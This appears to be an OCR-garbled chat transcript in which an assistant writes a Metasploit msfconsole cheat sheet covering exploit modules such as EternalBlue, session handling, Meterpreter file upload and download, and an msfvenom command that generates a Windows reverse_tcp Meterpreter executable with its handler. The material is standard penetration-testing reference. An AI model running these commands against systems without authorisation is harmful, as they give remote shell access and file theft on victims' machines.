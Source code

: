 Explain briefly and create a cheat sheet table for commands


### **MSFConsole Cheat Sheet**  
**Metasploit Framework (MSF)** is a powerful penetration testing tool, and `msfconsole` is its primary command-line interface. Below is a brief explanation and a cheat sheet of essential commands.

---

### **Brief Explanation**  
`msfconsole` provides an interactive environment to:  
- Load & manage exploits, payloads, and auxiliary modules.  
- Configure targets, set options, and execute attacks.  
- Manage sessions (e.g., Meterpreter shells).  

---

### **Cheat Sheet Table**  

| **Category**       | **Command**                          | **Description**                                      |
|--------------------|-------------------------------------|----------------------------------------------------|
| **General**        | `help`                              | Show all available commands.                      |
|                    | `banner`                            | Display a random Metasploit banner.               |
|                    | `version`                           | Show Metasploit version.                          |
|                    | `exit` / `quit`                     | Exit `msfconsole`.                                |
| **Modules**        | `search [keyword]`                  | Search for modules (exploits, payloads, etc.).   |
|                    | `use [module_path]`                 | Load a module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`). |
|                    | `show options`                      | Display configurable options for the current module. |
|                    | `show payloads`                     | List compatible payloads for the current exploit. |
| **Exploitation**   | `set RHOSTS [IP]`                   | Set target IP(s).                                 |
|                    | `set LHOST [IP]`                    | Set local listener IP (for reverse shells).       |
|                    | `set LPORT [port]`                  | Set local listener port.                         |
|                    | `run` / `exploit`                   | Execute the loaded module.                        |
| **Sessions**       | `sessions -l`                       | List active sessions.                             |
|                    | `sessions -i [ID]`                  | Interact with a session (e.g., Meterpreter).      |
|                    ｜　`sessions -k [ID] ｜ Kill a session． ｜
｜　Payload Generation ｜　msfvenom -p [

continue the above table


Here’s the completed **MSFConsole Cheat Sheet** table with additional essential commands, including payload generation and post-exploitation:  

---

### **Cheat Sheet Table (Continued)**  

| **Category**          | **Command**                         | **Description**                                               |
| --------------------- | ----------------------------------- | ------------------------------------------------------------- |
| **Sessions (Cont.)**  | `sessions -u [ID]`                  | Upgrade a shell to Meterpreter.                               |
|                       | `background`                        | Send an active session to the background.                     |
|                       | `sessions -C "[cmd]"`               | Run a command on all sessions (e.g., `sessions -C "whoami"`). |
| **Post-Exploitation** | `meterpreter> help`                 | Show Meterpreter-specific commands.                           |
|                       | `meterpreter> sysinfo`              | View target system info.                                      |
|                       | `meterpreter> shell`                | Drop into a system shell (e.g., `/bin/bash`).                 |
|                       | `meterpreter> upload [file] [path]` | Upload a file to the target.                                  |
|                       | `meterpreter> download [file]`      | Download a file from the target.                              |
|                       |                                     |                                                               |
｜　Payload Generation ｜　`msfvenom -p [payload] LHOST=[IP] LPORT=[port] -f [format] > [file]` ｜ Generate a payload (e.g., `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > payload.exe`)． ｜
｜　Listener Setup      ｜　`use exploit/multi/handler` ｜ Set up a listener for incoming connections． ｜
｜                     ｜　`set PAYLOAD [payload_path]` ｜ Match payload to generated file (e.g., `windows/x64/meterpreter/reverse_tcp`)． |

---

### **Key Notes:**  
1. **Payload Generation**:  
   - Use `msfvenom` (outside `msfconsole`) to create standalone payloads (e.g., `.exe`, `.apk`, `.php`).  
   Example:
continue,append but dont start from the begining
